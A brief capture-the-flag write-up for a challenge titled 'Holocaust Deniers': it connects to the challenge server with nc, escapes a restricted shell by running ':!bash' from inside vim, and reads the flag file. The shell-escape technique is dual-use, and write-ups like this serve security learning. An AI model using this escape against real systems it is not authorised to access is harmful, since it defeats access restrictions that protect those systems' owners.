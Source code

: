 # Holocaust Deniers

```
nc 103.177.232.41 5008
```

We connect to the limited remote shell, and notice that most common commands are blocked.

However we notice that vi/vim is still a functional command.

We open vim and type in `:!bash` to run another instance of the bash terminal within vim.

```
$ cat flag.txt
```

Flag: `cruX{17_d1d_n07_h4pp3n_b3c4u53_1_541d_50}`
